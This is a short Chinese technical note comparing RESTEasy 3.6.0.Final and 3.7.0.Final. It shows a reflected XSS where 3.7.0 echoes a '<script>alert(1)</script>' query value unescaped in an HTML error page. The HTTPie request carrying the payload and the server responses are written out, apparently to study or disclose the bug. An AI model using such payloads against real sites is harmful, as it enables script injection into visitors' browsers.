 ```bash
$ http "localhost:8080/rest/users?paging=1"
```

```bash
$ http "http://localhost:8080/rest/users?paging=0%2c-1sp137%3Cscript%3Ealert(1)%3C%2fscript%3Emzx4u"
```

在`resteasy 3.6.0.Final`下的表现：

```bash
$ http "http://localhost:8080/rest/users?paging=0%2c-1sp137%3Cscript%3Ealert(1)%3C%2fscript%3Emzx4u"
HTTP/1.1 404 Not Found
Content-Length: 0
Date: Wed, 25 Mar 2020 12:25:43 GMT
Server: Jetty(9.4.24.v20191120)



$
```

在`resteasy 3.7.0.Final`下的表现：

```bash
$ http "http://localhost:8080/rest/users?paging=0%2c-1sp137%3Cscript%3Ealert(1)%3C%2fscript%3Emzx4u"
HTTP/1.1 404 Not Found
Content-Length: 234
Content-Type: text/html;charset=utf-8
Date: Wed, 25 Mar 2020 12:26:49 GMT
Server: Jetty(9.4.24.v20191120)

RESTEASY003870: Unable to extract parameter from http request: javax.ws.rs.QueryParam("paging") value is '0,-1sp137<script>alert(1)</script>mzx4u' for public java.lang.Integer io.weli.resteasy.xss.UsersResource.page(java.lang.Integer)

$
```

结论：`3.6.0.Final`和`3.7.0.Final`之间的某些变化导致了行为的不同。

